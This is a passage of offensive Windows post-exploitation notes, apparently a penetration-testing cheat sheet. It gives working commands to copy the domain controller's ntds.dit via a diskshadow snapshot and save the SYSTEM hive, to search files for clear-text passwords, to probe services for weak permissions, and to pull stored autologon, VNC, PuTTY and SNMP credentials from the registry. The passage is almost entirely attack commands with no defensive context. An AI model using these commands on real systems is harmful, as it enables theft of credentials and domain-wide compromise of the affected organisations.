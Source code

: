 ```bash
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```

Then run:

```bash
diskshadow /s script.txt
...
cd E:\Windows\ntds
dir
cd C:\Windows\Temp
robocopy /b E:\Windows\ntds . ntds.dit
reg save hklm\system C:\Windows\Temp\System
```

#### Clear Text Passwords

```bash
findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini

#Find all those strings in config files.
dir /s *pass* == *cred* == *vnc* == *.config*

# Find all passwords in all files.
findstr /spin "password" *.*
findstr /spin "password" *.*
dir /s /p proof.txt
dir /s /p local.txt
```

#### Windows Services - insecure file persmissions

````bash
get-service
get-service ApacheHTTPServer | get-member
get-service ApacheHTTPServer | Select-Object *
Get-CIMInstance -Class Win32_Service -Filter "name ='ApacheHTTPServer' " | Select-Object *
Get-CIMInstance -Class Win32_Service -filter "StartName != 'LocalSystem' AND NOT StartName LIKE 'NT Authority%' " | Select-Object * | Sort-Object StartName
wmic service list brief
sc query
.\accesschk.exe -ucqv ApacheHTTPServer -accepteula
accesschk.exe /accepteula -uwcqv "Authenticated Users" * #command refer to exploits below
````

#### Interesting Registry Keys

```bash
REG QUERY HKLM /F "password" /t REG_SZ /S /K
REG QUERY HKCU /F "password" /t REG_SZ /S /K

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword" 
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" # SNMP parameters
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" # Putty clear text proxy credentials
reg query "HKCU\Software\ORL\WinVNC3\Password" # VNC credentials
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```